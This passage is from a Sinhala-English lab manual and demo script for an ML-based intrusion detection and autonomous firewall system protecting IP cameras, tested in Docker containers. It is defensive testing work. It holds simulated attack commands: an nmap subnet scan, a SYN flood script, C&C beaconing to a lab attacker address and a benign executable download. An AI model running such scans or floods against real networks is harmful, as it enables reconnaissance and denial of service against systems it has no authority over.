    *(ප්‍රතිඵලය: `NVR -> camera:554 connection OK`. මෙය TCP connection එක විවෘත වන බව පමණක් පෙන්වයි; stream එක නොකැඩුණු බව පෙන්වන්නේ NVR log එකයි - 4.2.9.)*

- **6. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය:**
  - **Live Alerts (`/alerts`):** `DDoS_DoS` (රතු පැහැති class pill), `10.10.10.50` → `192.168.50.30:80`, `RESPONSE: RATE_LIMITED`. (ඉහත සටහනේ ආකාරයට `CnC` / `RESPONSE: BLOCKED` alert එකක්ද පෙනිය හැක.)
  - **Mitigations පිටුව (`/mitigations`):** `10.10.10.50` - `· RATE-LIMIT` (reason `AUTO_DDOS_RATELIMIT`) සහ, සිදුවී ඇත්නම්, `· BLOCK` record එක, EXPIRES AT වේලාව සමඟ.

- **7. Cleanup:** තත්පර 20 කින් ස්ක්‍රිප්ට් එක තනිවම අවසන් වේ. ඊට පෙර නැවැත්වීමට:
  ```powershell
  docker exec ids-lab-attack-server pkill -f "syn_flood.py"
  ```
  ඉන්පසු `lab.py reset` මඟින් rate-limit / block ඉවත් කරන්න.

---

#### 4.3.3 ප්‍රහාර වර්ගය 3: Command & Control (C&C Botnet Beacons - Table 10 Scenario 4)

- **ප්‍රහාරක අවස්ථාව සහ අරමුණ:** ආසාදිත කැමරාවක් පිටත ඇති C&C Server එක (`10.10.10.50:6667`) වෙත වරින් වර සම්බන්ධ වීමට උත්සාහ කරයි (Proposal Table 10 Row 4).
- **1. Terminal එකේ අතින් ගසන Commands (Manual Attack Commands):**
  ```powershell
  # පියවර 1: පිටත Attacker මැෂිමේ Port 6667 C&C Server එක Background එකේ ආරම්භ කිරීම (තත්පර 120 කට පසු විවෘත වේ):
  docker exec -d ids-lab-attack-server python -u /lab/lab_server.py --role cnc --cnc-open-after 120

  # පියවර 2: ආසාදිත කැමරාව තුළින් C&C Server එක වෙත තත්පර 5 කට වරක් උත්සාහ කිරීම (තත්පර 90 ක්):
  docker exec -d ids-lab-camera python -u /lab/camera_sim.py bot --server 10.10.10.50 --every 5 --session 30 --duration 90
  ```

- **2. කේතයෙන් සිදුවන දේ සරලව (Under the Hood):**
  - C&C server එක මුල් තත්පර 120 port 6667 වසා තබයි (IoT-23 හි මෙන් මුල් උත්සාහයන් අසාර්ථක වීමට). Bot එක තත්පර 90 කින් නවතින බැවින් මෙම demo එකේ සියලු උත්සාහයන් ප්‍රතික්ෂේප (`REJ`) වේ.
  - සම්බන්ධ වූ විට (දිගු run එකකදී) bot එක IRC-වැනි කෙටි chat එකක් (`NICK`, `USER`, `PING`/`PONG`) පවත්වයි. Shell එකක් නැත.

- **3. Zeek Sensor එක Capture කරන හැටි (Zeek Sniffing Proof):**
  ```powershell
  Get-Content lab_virtual\zeek_logs\conn.log | Select-String '"id.resp_p":6667' | Select-Object -Last 5
  ```
  - **ලැබෙන log සටහන්:** `id.orig_h: "192.168.50.30"`, `id.resp_h: "10.10.10.50"`, `id.resp_p: 6667`. Block එකට පෙර `conn_state: "REJ"` (12 Nov 2026: 7 ක්), block එකෙන් පසු router එකේදී drop වූ බැවින් `conn_state: "S0"` (6 ක්).

- **4. ML Model (v3.1.0) හඳුනාගන්නා ආකාරය (ML Inference):**
  - `pair_fail_1h` (මෙම යුගලයේ පැය තුළ අසාර්ථක උත්සාහ), `pair_gap` / `pair_gap_change` (නිතිපතා කාල පරතරය), `conn_state = REJ` වැනි features.
  - Model v3.1.0 මෙය **`CnC`** ලෙස හඳුනාගනී (12 Nov 2026: **0.93**, 13 Nov: **0.86**; ආරම්භයෙන් තත්පර ~21–24 කින්).

- **5. Router Firewall ස්වයංක්‍රීයව Block කිරීම (Autonomous Firewall Proof):**
  - කැමරාව `lab.local_networks` (`192.168.50.0/24`) තුළ ඇති බැවින් කිසිවිටෙක block නොකරයි.
  - CnC $P \ge 0.30$ සහ තත්පර 60 තුළ alerts 3 ක් ඇති විට, පිටත C&C Server IP එක (`10.10.10.50`) `block_dst` set එකට **මිනිත්තු 30 (`timeout 30m`)** කට දමයි:
  ```powershell
  docker exec ids-lab-router nft list set inet ids block_dst
  ```
  - **ලැබෙන පිළිතුර (Linux Kernel State, 12 Nov 2026):**
    ```text
    table inet ids {
    	set block_dst {
    		type ipv4_addr
    		flags timeout
    		elements = { 10.10.10.50 timeout 30m expires 28m40ms }
    	}
    }
    ```
  - Block එක නොලැබුණොත් (පෙර runs වලින් සමහරක confidence අඩු විය): cleanup commands run කර තත්පර 60 ක් රැඳී, නැවත උත්සාහ කරන්න.

- **6. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය:**
  - **Live Alerts (`/alerts`):** `CnC` (දම් පැහැති pill), confidence ~93%, `192.168.50.30` → `10.10.10.50:6667`, direction `outbound`, `RESPONSE: BLOCKED`.
  - **Mitigations පිටුව (`/mitigations`):** `10.10.10.50` (direction `destination`, reason `AUTO_CNC_DEST_BLOCK`), **EXPIRES AT** වේලාව සමඟ.
  - **NVR stream එක:** කැමරාව සහ NVR අතර stream එක දිගටම ධාවනය වේ (4.2.9).

- **7. Cleanup Commands (ප්‍රහාරය අවසන් කිරීම):**
  ```powershell
  docker exec ids-lab-attack-server pkill -f "lab_server.py --role cnc"
  docker exec ids-lab-camera pkill -f "camera_sim.py bot"
  .venv\Scripts\python.exe lab_virtual\lab.py reset
  ```

---

#### 4.3.4 ප්‍රහාර වර්ගය 4: Malware Download / Suspicious Binary Transfer (Table 10 Scenario 5)

- **ප්‍රහාරක අවස්ථාව සහ අරමුණ:** කැමරාව පිටත Attacker Web Server එකෙන් (`10.10.10.50`) executable ගොනුවක් (`lab_test.x86`) download කරයි (Proposal Table 10 Row 5). **ආරක්ෂාව:** මෙම ගොනුව Linux `true` command එකේ හානිකර නොවන පිටපතකි (bytes 43,432) - සැබෑ malware එකක් නොවේ.
- **1. Terminal එකේ අතින් ගසන Command එක (Manual Attack Command):**
  ```powershell
  docker exec ids-lab-camera python -u /lab/camera_sim.py download --url http://10.10.10.50/bins/lab_test.x86 --count 5 --every 20
  ```
  **ලැබෙන පිළිතුර:**
  ```text
  18:00:30 download 1: 43432 bytes from http://10.10.10.50/bins/lab_test.x86
  18:00:35 download 2: 43432 bytes from http://10.10.10.50/bins/lab_test.x86
  ...
  ```

- **2. කේතයෙන් සිදුවන දේ සරලව (Under the Hood):**
  කැමරාව (`192.168.50.30`) පිටත Attacker Server එකේ (`10.10.10.50:80`) `/bins/lab_test.x86` වෙත HTTP GET requests 5 ක් තත්පර 20 ක පරතරයකින් යවා ගොනුව download කරයි (මුළු කාලය ~තත්පර 100).

- **3. Zeek Sensor එක Capture කරන හැටි (Zeek Sniffing Proof):**
  ```powershell
  Get-Content lab_virtual\zeek_logs\http.log | Select-String "lab_test" | Select-Object -Last 1
  Get-Content lab_virtual\zeek_logs\files.log -Tail 1
  ```
  - **`http.log`:** `method: "GET"`, `uri: "/bins/lab_test.x86"`, `status_code: 200`, `response_body_len: 43432`, `resp_mime_types: ["application/x-sharedlib"]`.
  - **`files.log`:** `source: "HTTP"`, `mime_type: "application/x-sharedlib"`, `total_bytes: 43432`. (Zeek ගොනුවේ මුල් bytes (ELF header) කියවා file type එක තීරණය කරයි; `true` program එක Zeek ට `x-sharedlib` ලෙස පෙනේ.)

- **4. File-Type Rule සහ ML Model:**
  - IDS එකේ **`RULE_EXECUTABLE_DOWNLOAD`** නීතිය (`core_engine/file_check.py`) Zeek `files.log` හි **mime type** එක (program / executable වර්ග) කියවා, allowlist එකේ නැති පිටත host එකකින් පැමිණි program ගොනුවක් සඳහා **`Malware_Download`** alert එකක් ලබාදෙයි (confidence 1.00 = නීතියෙන්; model probability එකක් නොවේ).
  - Random Forest model එක මෙම flows සඳහා වෙනම අනාවැකි ලබාදෙන නමුත්, මෙම alert එක සෑදුවේ නීතියයි (reason `RULE_EXECUTABLE_DOWNLOAD`).

- **5. Router ප්‍රතිචාරය (Proposal Policy):**
  - Proposal Table 10 Row 5: *"alert and evidence only; no block"*. Malware_Download සඳහා ස්වයංක්‍රීය block එකක් නැත (`RESPONSE: NONE`). Firmware updates වැනි නීත්‍යානුකූල downloads නැවැත්වීම වැළැක්වීමට සාක්ෂි පමණක් සටහන් කර, තීරණය පරිපාලකයාට ඉතිරි කරයි.

- **6. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (`/alerts`):**
  - `Malware_Download` (රෝස පැහැති pill), confidence `100%`, `10.10.10.50:80` → `192.168.50.30:<port>`, direction `inbound`, `RESPONSE: NONE`, සහ evidence note එකේ ගොනු වර්ගය, නම, ප්‍රමාණය.

- **7. Cleanup:** බාගත කිරීම් 5 අවසන් වූ පසු ස්ක්‍රිප්ටුව තනිවම අවසන් වේ.

---

#### 4.3.5 ප්‍රහාර වර්ගය 5: Administrator Manual Block & Rollback (Table 10 Scenario 6)

- **ප්‍රහාරක අවස්ථාව සහ අරමුණ:** පරිපාලකයා Dashboard UI හෝ REST API හරහා IP එකක් Manual Block කර, නැවත Unblock (Rollback) කිරීම (Proposal Table 10 Row 6, FR-06, FR-07).
- **1. Terminal එකේ අතින් Manual Block කරන Command එක:**
  ```powershell
  python -c "
  import urllib.request, json
  with open('lab_virtual/keys/dashboard_login.txt') as f:
      u, p = f.read().strip().split()[:2]
  req = urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})
  tok = json.loads(urllib.request.urlopen(req).read())['token']
  req_block = urllib.request.Request('http://127.0.0.1:5000/api/blocklist', data=json.dumps({'ip':'10.10.10.50','direction':'source','duration_minutes':10,'reason':'Manual Supervisor Demo Block'}).encode(), headers={'Content-Type':'application/json','Authorization':'Bearer '+tok})
  res = urllib.request.urlopen(req_block)
  print('Manual Block Response:', res.getcode(), json.loads(res.read())['message'])
  "
  ```
  **ලැබෙන පිළිතුර:** `Manual Block Response: 201 Blocking rule for '10.10.10.50' enacted successfully.`

- **2. Router Firewall එකේ සජීවීව Block එක පරීක්ෂා කිරීම (Kernel Proof):**
  ```powershell
  docker exec ids-lab-router nft list set inet ids block_src
  ```
  - **ලැබෙන පිළිතුර:** `elements = { 10.10.10.50 timeout 10m expires 9m5...s }` - මිනිත්තු 10 ක timeout එකක් සමඟ.
  - Block එක අතරතුර attacker ට කැමරාවේ port 80 වෙත ළඟා විය නොහැක (`lab.py scenario 6` මෙය `open / blocked / open` ලෙස පරීක්ෂා කරයි).

- **3. Terminal එකේ අතින් Manual Unblock (Rollback) කරන Command එක:**
  ```powershell
  python -c "
  import urllib.request, json
  with open('lab_virtual/keys/dashboard_login.txt') as f:
      u, p = f.read().strip().split()[:2]
  req = urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})
  tok = json.loads(urllib.request.urlopen(req).read())['token']
  req_unblock = urllib.request.Request('http://127.0.0.1:5000/api/blocklist/10.10.10.50', data=json.dumps({'reason':'Manual Rollback Done'}).encode(), headers={'Content-Type':'application/json','Authorization':'Bearer '+tok}, method='DELETE')
  res = urllib.request.urlopen(req_unblock)
  print('Manual Unblock Response:', res.getcode(), json.loads(res.read())['message'])
  "
  ```
  **ලැබෙන පිළිතුර:** `Manual Unblock Response: 200 Unblocked '10.10.10.50'. 1 rule(s) transitioned to 'removed'.` සහ router එකේ `block_src` නැවත හිස් වේ.

- **4. Audit Trail එක තහවුරු කිරීම (Proposal FR-07 Audit Compliance):**
  ```powershell
  python -c "
  import urllib.request, json
  with open('lab_virtual/keys/dashboard_login.txt') as f:
      u, p = f.read().strip().split()[:2]
  req = urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})
  tok = json.loads(urllib.request.urlopen(req).read())['token']
  for ev in ('MANUAL_BLOCK', 'MANUAL_UNBLOCK'):
      r = urllib.request.Request('http://127.0.0.1:5000/api/logs?limit=1&event=' + ev, headers={'Authorization':'Bearer '+tok})
      log = json.loads(urllib.request.urlopen(r).read())['logs'][0]
      print(log['timestamp'], log['event'], log['actor'], log['outcome'], log['details'].get('ip'), log['details'].get('reason'))
  "
  ```
  **ලැබෙන පිළිතුර (උදාහරණය):**
  ```text
  2026-11-12T18:01:18.068000 MANUAL_BLOCK labadmin SUCCESS 10.10.10.99 manual test
  2026-11-12T18:01:18.518000 MANUAL_UNBLOCK labadmin SUCCESS 10.10.10.99 manual rollback test
  ```

- **5. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය:**
  - `http://localhost:5000/mitigations`: Block කළ සැණින් IP එක active blocks වගුවට වැටී (`· BLOCK`, EXPIRES AT), Unblock කළ සැණින් වගුවෙන් ඉවත් වේ.
  - `http://localhost:5000/export` (Logs & Export) පහළ **System & Audit Logs** වගුව: actor (`labadmin`), event (`MANUAL_BLOCK`, `MANUAL_UNBLOCK`), outcome, සහ වේලාව.
  - ⚠️ **ආරක්ෂක සටහන:** allowlist IP (`.1`, `.5`, `.10`, `.20`) manual block කිරීමට උත්සාහ කළහොත් `403 ALLOWLIST_PROTECTED` ලෙස ප්‍රතික්ෂේප වේ. **කැමරාව (`.30`) allowlist එකේ නැති බැවින් පරිපාලකයාට එය manual block කළ හැක** (local-network නීතිය ආරක්ෂා කරන්නේ ස්වයංක්‍රීය blocks වලින් පමණි). Demo එකේදී කැමරාව block නොකරන්න.

---

# 5. සැබෑ උදාහරණ: සාමාන්‍ය අවස්ථාව සහ විවිධ ප්‍රහාරක අවස්ථා (End-to-End Data Chain In Action)

පද්ධතිය තුළ විවිධ ජාල තත්ත්වයන් යටතේ දත්ත ගලායන සම්පූර්ණ දාමය (Packets ➔ Zeek ➔ Feature Extractor ➔ ML Model ➔ Decision Engine ➔ Router Firewall ➔ Dashboard) පහත අවස්ථා මඟින් පැහැදිලි වේ. *(අගයන් 12 Nov 2026 Virtual Lab run එකෙනි; සෑම run එකකම මඳක් වෙනස් වේ.)*

### උදාහරණ A: සාමාන්‍ය වෙලාව (Normal Streaming - Scenario 1)

1. NVR (`192.168.50.20`) කැමරාවට (`192.168.50.30:554`) `PLAY` request එකක් යවයි.
2. කැමරාව තත්පර 300 ක segment එකක් පුරා bytes **58,604,000 (58.6 MB)** යවයි (simulator එකේ අහඹු bytes).
3. Zeek ලියයි: `orig_bytes: 39`, `resp_bytes: 58604000`, `duration: 300.1`, `conn_state: "RSTO"`.
4. Adapter එක features 27 ක් හදයි (`pair_fail_1h = 0`).
5. Model එක මෙය Benign ලෙස සලකයි; NVR හෝ කැමරා stream එක සඳහා කිසිදු alert එකක් නොලැබුණි. (`.20` allowlist එකේද ඇත.)
6. Decision Engine: Benign summary එකක් ලෙස `traffic_summaries` හි සටහන් කරයි.
7. **ප්‍රතිඵලය:** Overview හි "benign in 24 h" ගණන වැඩි වේ. කිසිදු alert එකක් හෝ block එකක් නැත. *(12 Nov 18:05 සිට 13 Nov 00:09 දක්වා පැය ~6 ක සාමාන්‍ය traffic තුළ කැමරා / NVR / Admin සඳහා කිසිදු alert එකක් නොවීය. මෙය Virtual Lab නිරීක්ෂණයක් පමණි; H1 FPR මැනීම නොවේ.)*

---

### උදාහරණ B: Reconnaissance PortScan ප්‍රහාරයක් එල්ල වන වෙලාව (Scenario 2)

1. Attacker (`10.10.10.50`) `nmap -p 23,80,554 192.168.50.0/24` මඟින් subnet එක scan කරයි.
2. Router එක හරහා probes ගමන් කර, hosts 6 ක් සොයාගෙන කැමරාවේ Ports 80, 554 විවෘත බව හඳුනාගනී.
3. Zeek ලියයි: `10.10.10.50` සිට විවිධ hosts / ports වෙත කෙටි, අසම්පූර්ණ connections.
4. Adapter එක window features හදයි: `src_udst_60s` (වෙනස් hosts), `src_uport_60s` (වෙනස් ports), `src_conn_60s`.
5. Model v3.1.0 එක කියයි: `predicted_class = "PortScan"`, `confidence = 0.88` (`10.10.10.50` → `192.168.50.254:23`).
6. Decision Engine: Alert 1 ක් පමණක් ඇති බැවින් (block සඳහා 0.88 සහ 60 s තුළ 3 ක් අවශ්‍යයි) `candidate` - alert පමණි, block නැත.
7. **ප්‍රතිඵලය:** Live Alerts හි `PortScan` (amber) alert එක, `RESPONSE: CANDIDATE`. කැමරාව සුරක්ෂිතව පවතී.

---

### උදාහරණ C: DDoS SYN Flood ප්‍රහාරයක් එල්ල වන වෙලාව (Scenario 3)

1. Attacker (`10.10.10.50`) කැමරාවේ Port 80 වෙත තත්පරයට SYN packets 1,000 ක් තත්පර 20 ක් (මුළු 20,002) යවයි.
2. සෑම packet එකකටම අලුත් source port එකක් ඇති බැවින් Zeek ට එක් එක් එක කෙටි connection එකක් ලෙස පෙනේ (flows දහස් ගණනක්).
3. Zeek ලියයි: `10.10.10.50` → `192.168.50.30:80`, `orig_bytes: 0`, packet 1–2 බැගින්.
4. Adapter එක features 27 ක් හදයි: `src_conn_60s` සහ `src_uport_60s` අතිශය ඉහළයි.
5. Model v3.1.0 එක කියයි: `predicted_class = "DDoS_DoS"`, `confidence = 0.44` (11 Nov: 0.58).
6. Decision Engine (Rule D-055): rate-limit සීමාව 0.30 ඉක්මවූ බැවින් attacker source එක `limit_src` (200 pkt/s) ලැයිස්තුවට මිනිත්තු 30 කට දමයි. *(12 Nov run එකේදී මුල් flows `CnC` (0.55) ලෙසද අනාවැකි වී, attacker `block_src` එකටද වැටුණි.)*
7. **ප්‍රතිඵලය:** Flood එක පාලනය වේ; කැමරාවේ NVR stream එක (Port 554) සහ Admin web page එක දිගටම ක්‍රියාත්මකයි.

---

### උදාහරණ D: C&C Beacons ප්‍රහාරයක් එල්ල වන වෙලාව (Scenario 4)

1. ආසාදිත කැමරාව (`192.168.50.30`) පිටත ඇති C&C server එක (`10.10.10.50:6667`) වෙත තත්පර 5 කට වරක් සම්බන්ධ වීමට උත්සාහ කරයි.
2. C&C server එක ආරම්භක තත්පර 120 තුළ වසා ඇති බැවින් එම උත්සාහයන් ප්‍රතික්ෂේප වේ (`REJ`).
3. Zeek ලියයි: `conn_state: "REJ"`, `id.resp_h: "10.10.10.50"`, `id.resp_p: 6667`.
4. Adapter එක features 27 ක් හදයි: `pair_fail_1h` (මෙම යුගලයේ අසාර්ථක උත්සාහ) වැඩි වේ, `pair_gap` නිතිපතා (~5 s).
5. Model v3.1.0 එක කියයි: `predicted_class = "CnC"`, `confidence = 0.86–0.93` (ආරම්භයෙන් තත්පර ~21–24 කින්).
6. Decision Engine: කැමරාව local network එකේ බැවින් ආරක්ෂිතයි; පිටත destination එක වන `10.10.10.50` block කිරීමට තීරණය කරයි (CnC ≥ 0.30, 60 s තුළ alerts 3).
7. Router Adapter: SSH මඟින් router එකට ගොස් `10.10.10.50` `block_dst` set එකට දමයි (`timeout 30m`). ඉන්පසු කැමරාවේ උත්සාහයන් router එකේදී drop වේ (`S0`).
8. **ප්‍රතිඵලය:** කැමරාවට පිටත C&C server එක හා සම්බන්ධ වීම අවහිර වේ. Live Alerts හි `CnC` alert එක `RESPONSE: BLOCKED` සමඟ වැටේ. කැමරාවේ stream එක Local NVR එකට සාමාන්‍ය පරිදි ගලා යයි.

---

### උදාහරණ E: Executable Download එකක් සිදුවන වෙලාව (Scenario 5)

1. කැමරාව පිටත Attacker Web Server එකෙන් (`http://10.10.10.50/bins/lab_test.x86`) හානිකර නොවන test program එකක් (`true` හි පිටපතක්, bytes 43,432) download කරයි.
2. Zeek `http.log` හි URI එක සහ `files.log` හි ගොනු වර්ගය (`application/x-sharedlib`) ලියයි.
3. File-type නීතිය: `RULE_EXECUTABLE_DOWNLOAD` ක්‍රියාත්මක වී `Malware_Download` alert එකක් (confidence 1.00 - නීතියෙන්) සාදයි.
4. Decision Engine: Table 10 Row 5 අනුව block නොකර සාක්ෂි (evidence) පමණක් සටහන් කරයි (`RESPONSE: NONE`).
5. **ප්‍රතිඵලය:** Live Alerts හි `Malware_Download` alert එක සහ ගොනු සාක්ෂි. පරිපාලකයාට අවශ්‍ය නම් Manual Block කළ හැක.

---

# 6. Supervisor ඉදිරියේ Presentation එකක් කරන ආකාරය (Step-by-Step Script)

ඔබේ Supervisor (Dr. Matheeh හෝ Dr. Amarakeerthi) ඉදිරියේ screen එක share කරගෙන හෝ demo එකක් පෙන්වන විට පහත පියවර අනුගමනය කරන්න:

### පියවර 1: ආරම්භක හැඳින්වීම (Introduction)

> *"Good morning Sir. Today I will demonstrate our Real-Time Intrusion Detection and Autonomous Response System for IP Cameras."*
> *"As approved in our research proposal Section 5.1, we have implemented the full end-to-end architecture inside a realistic Docker virtual testbed."*
> *"Sir, this is our virtual lab. The network packets, Zeek sensor, Random Forest ML model (v3.1.0), Linux nftables router firewall, and the React dashboard are all real; the devices are simulated in Docker containers. Real camera validation will be conducted in the physical hardware lab."*
>
> *(Supervisor විමසුවහොත්: "How is the virtual lab built?":)*
> *"Sir, we use Docker Compose with 3 isolated bridge networks: `camlan` (br-ids-lan) acting as the camera switch, `outside` (br-ids-out) as the WAN, and `mgmt` for SSH. The router container runs real Linux kernel IP forwarding without NAT, while the Zeek container attaches to the camera bridge in host promiscuous mode, capturing all LAN traffic."*

---

### පියවර 2: ජාලය සහ Dashboard එක පෙන්වීම (Show Network & Dashboard)

> *"Here we have the camera subnet 192.168.50.0/24 with the camera at .30, the NVR at .20, and the admin PC at .10."*
> *"First, let me open our React SOC Dashboard on port 5000:"*

1. **Browser එකේ `http://localhost:5000` විවෘත කර Login වන්න:**

   - User: `labadmin`
   - Pass: `lab_virtual/keys/dashboard_login.txt` හි ඇති password එක.
2. **Dashboard Overview පිටුව පෙන්වන්න:**

   > *"On the Overview page Sir, you can see the measured pipeline latency (about 0.1 to 0.2 seconds median), the active blocks, the model version v3.1.0, and the benign flow count growing as the lab traffic runs."*
   >
   > 💡 *(Demo එකට පෙර: backend එක මිනිත්තු 5 කට පෙර start කරන්න, `lab.py reset` run කරන්න, සහ NVR log පේළි ඇති බව බලන්න - NVR පළමු පේළිය ලියන්නේ lab එක ආරම්භ කර මිනිත්තු 5 කට පසුවයි.)*
   >
3. **NVR එක වීඩියෝ record කරන බව පෙන්වන්න:**

   ```powershell
   docker logs ids-lab-nvr --tail 3
   ```

   > *"In the terminal, you can see that the NVR receives the camera stream on port 554 without a break: every 5-minute segment is 58.6 MB. The stream is simulated data, not real video."*
   >

---

### පියවර 3: සජීවී ප්‍රහාරයක් සහ Dashboard එක Live Update වීම (Live Attack & Dashboard Telemetry)

> *"Now Sir, I will launch an autonomous C&C botnet attack from our outside attacker at 10.10.10.50:"*

Terminal එකේ සැබෑ C&C ප්‍රහාරක විධානයන් කෙලින්ම ධාවනය කරන්න:

```powershell
# 1. Attacker C&C Master Server එක (Port 6667) Background එකේ විවෘත කිරීම:
docker exec -d ids-lab-attack-server python -u /lab/lab_server.py --role cnc --cnc-open-after 120

# 2. ආසාදිත කැමරාවෙන් C&C Server එක වෙත Botnet Beacons යැවීම ආරම්භ කිරීම:
docker exec -d ids-lab-camera python -u /lab/camera_sim.py bot --server 10.10.10.50 --every 5 --session 30 --duration 90
```

> 💡 **ප්‍රහාරය අවසන් වූ පසු C&C processes නැවැත්වීමට (Cleanup Commands):**
> ```powershell
> docker exec ids-lab-attack-server pkill -f "lab_server.py --role cnc"
> docker exec ids-lab-camera pkill -f "camera_sim.py bot"
> ```
> *(සටහන: මෙය ස්වයංක්‍රීයව run කර Table 10 Markdown පරීක්ෂණ වාර්තාවක්ද සෑදීමට `.venv\Scripts\python.exe lab_virtual\lab.py scenario 4` භාවිත කළ හැක).*
>

**Dashboard එක දෙසට යොමු කරන්න:**

1. > *"The infected camera starts sending periodic outbound beacons to the outside C&C server at 10.10.10.50. Zeek logs these failed connection attempts."*
   >
2. > *"Our Random Forest model v3.1.0 classifies the pattern as C&C with 91% confidence."*
   >
3. > *"Notice Sir, without refreshing the browser, the WebSocket pushed the event to our screen. The Live Alerts page shows the CnC alert from the camera to 10.10.10.50:6667 with RESPONSE: BLOCKED."*
   >
4. > *"If we switch to the Mitigations tab (http://localhost:5000/mitigations), you can see 10.10.10.50 on the blocklist as a destination block, with the time it expires, 30 minutes after the block."*
   >
   *(Alert එක සාමාන්‍යයෙන් තත්පර 20–40 කින් පෙනේ. Block එක නොලැබුණොත්, 4.2.8 හි cleanup commands run කර, තත්පර 60 ක් රැඳී, විධාන දෙක නැවත run කරන්න.)*
   >

---

### පියවර 4: Router Firewall එක ඇතුළෙන්ම Block එක පෙන්වීම (Verify in Linux nftables)

> *"To prove this is not just a UI trick, let's inspect the router's actual Linux firewall kernel state:"*

```powershell
docker exec ids-lab-router nft list set inet ids block_dst
```

> *"As you can see, the IP 10.10.10.50 is actively held inside the router's nftables drop set with its remaining timeout."*

---

### පියවර 5: කැමරාව දිගටම ක්‍රියාත්මක බව පෙන්වීම (Camera Stream Survival)

> *"Most importantly Sir, our camera was never blocked. The NVR continues recording its video stream uninterrupted, proving that legitimate camera operations survive while the attacker is stopped."*

---

### පියවර 6: වෙනත් ඕනෑම ප්‍රහාරයක් Supervisor ඉල්ලුවහොත් ක්ෂණිකව පෙන්වීමට (Alternative Live Attacks Quick Reference)

Supervisor විසින්: *"Can you show me a PortScan or a DDoS attack right now?"* කියා ඇසුවහොත්, පහත විධානයන් කෙලින්ම Terminal එකේ ධාවනය කර පෙන්වන්න:

| ප්‍රහාරක වර්ගය (Attack Type) | Terminal එකේ ගසන Command එක (Direct Manual Execution) | ML Model & Firewall ප්‍රතිචාරය | Dashboard හි පෙනෙන ආකාරය |
| :--- | :--- | :--- | :--- |
| **1. PortScan (Scenario 2)** | `docker exec ids-lab-attacker nmap -p 23,80,554 192.168.50.0/24` | `PortScan` alert (12 Nov: 0.88), `RESPONSE: CANDIDATE` (block සඳහා 60 s තුළ alerts 3 ක් අවශ්‍යයි), camera not blocked | Live Alerts හි amber `PortScan` alert |
| **2. DDoS SYN Flood (Scenario 3)** | `docker exec ids-lab-attack-server python -u /lab/syn_flood.py 192.168.50.30 --port 80 --rate 1000 --seconds 20` | `DDoS_DoS` (12 Nov: 0.44) → `limit_src` rate-limit (D-055); සමහර runs වල `CnC` ලෙසද අනාවැකි වී `block_src` ද වේ; NVR stream continues | Live Alerts හි `DDoS_DoS` + `RESPONSE: RATE_LIMITED`; Mitigations හි `· RATE-LIMIT` |
| **3. C&C Beacons (Scenario 4)** | `docker exec -d ids-lab-attack-server python -u /lab/lab_server.py --role cnc --cnc-open-after 120`<br>`docker exec -d ids-lab-camera python -u /lab/camera_sim.py bot --server 10.10.10.50 --every 5 --session 30 --duration 90` | `CnC` (12–13 Nov: 0.93, 0.86) → router `block_dst` `10.10.10.50` for 30 min (`timeout 30m`) | Live Alerts හි purple `CnC` + `RESPONSE: BLOCKED`; Mitigations හි EXPIRES AT වේලාව |
| **4. Executable Download (Scenario 5)** | `docker exec ids-lab-camera python -u /lab/camera_sim.py download --url http://10.10.10.50/bins/lab_test.x86 --count 5 --every 20` | `RULE_EXECUTABLE_DOWNLOAD` → `Malware_Download` alert (1.00), evidence only, no block | Live Alerts හි pink `Malware_Download` + `RESPONSE: NONE` |
| **5. Manual Block / Unblock (Scenario 6)** | Dashboard UI (`http://localhost:5000/mitigations`) හෝ REST API (4.3.5) මඟින් Block/Unblock කිරීම | Router `block_src` update වීම, audit log හි `MANUAL_BLOCK` / `MANUAL_UNBLOCK` | Mitigations වගුව ක්ෂණිකව update වීම; Logs & Export හි audit සටහන් |

*(සෑම ප්‍රහාරයකටම පසු `.venv\Scripts\python.exe lab_virtual\lab.py reset` run කරන්න.)*

*(සවිස්තරාත්මක විස්තර, Zeek logs පරීක්ෂා කිරීම්, සහ Kernel nftables තහවුරු කිරීම් සඳහා ඉහත **[Section 4.3](#43-විවිධ-ප්‍රහාර-වර්ග-අතින්-commands-ගසා-සජීවීව-පෙන්වීමේ-ප්‍රායෝගික-අත්පොත-hands-on-manual-attack-execution-ml-detection-firewall-response--dashboard-telemetry-playbook)** බලන්න).*
